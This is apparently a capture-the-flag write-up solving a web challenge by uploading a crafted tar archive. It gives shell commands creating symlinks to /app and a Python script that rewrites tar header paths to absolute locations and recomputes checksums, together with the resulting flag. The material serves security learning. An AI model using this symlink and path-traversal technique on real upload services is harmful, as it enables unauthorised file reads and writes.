```yaml
---
ai_date: 2025-04-27 05:20:52
ai_summary: Exploited directory traversal and tar file manipulation to bypass checksum, create symbolic links, and extract flag from `/app`
ai_tags:
  - lfi
  - tar
  - path-traversal
created: 2024-08-04T06:05
navigation: false
points: 478
solves: 119
updated: 2025-07-14T09:46
---
```


We are allowed to upload a tar file and have the remote extract it, nice.

## analysis

But we don't know the flag file name, so we can't simply add a link to the tar, pointing to the flag file, we need to read the folder `/app`.

Furthermore, `open` does not read folders, so we have to use the endpoint `/view/<name>` to read our link pointing to `/app`.

Which means we have to make a link under `/app/uploads/` that will point to `/app/` (and not under `/app/uploads/0123/aaa` during normal extraction).

## payload

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1723173745/2024/08/ace04d395856a46fe9424093ecc080a2.png)

1. `tar` file can contain links, with that we can target the `/app` folder.
2. `tar` file extraction allows arbitrary file write to any location by editing the name field (binary).
3. `tar` file has a crc that needs to be patched.

```bash
ln -s /app aaa
tar -cvf malicious.tar aaa
python patch.py
```

Sending it to the server and I got... Internal error.

After running my own docker instance, I found the cause.

There is no `aaa.tar` inside `/app`, so the following line failed.

```python
files.remove(f'{name}.tar')  # Remove the tar file from the list
```

To solve this we can simply add a new entry `/app/aaa.tar`.

```bash
ln -s /app aaa
ln -s /app aaa.tar
tar -cvf malicious.tar aaa aaa.tar
```

## execution
After uploading the file, visit `/view/aaa`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722748079/2024/08/6aab82c079c6a5a981cdc69959b8ec50.png)

Clicking on `flag` we arrive at our flag.

```flag
n00bz{n3v3r_7rus71ng_t4r_4g41n!_72810bc8e5af}
```

## auto tar checksum/path patcher

> Reused from my previous writeup.

```python [patch.py]
with open("malicious.tar", "rb") as f:
    tar = f.read()
    tar = bytearray(tar)

    a1 = b"/app/uploads/aaa"
    tar[0x00:0x00+len(a1)] = a1
    a2 = b"/app/aaa.tar"
    tar[0x200:0x200+len(a2)] = a2

    off = 0
    while True:
        if tar[off] == 0:
            break
        tar[off+0x94:off+0x9c] = b' '*(0x9c-0x94)
        checksum = sum(list(tar[off+0x00:off+0x200]))
        tar[off+0x94:off+0x9c] = bytes(("%06o\0" % checksum).ljust(8), "ascii")
        print("patched", hex(off))
        off += 0x200

    tar = bytes(tar)
    with open("malicious.out.tar", "wb") as f:
        f.write(tar)
        print("Done")
```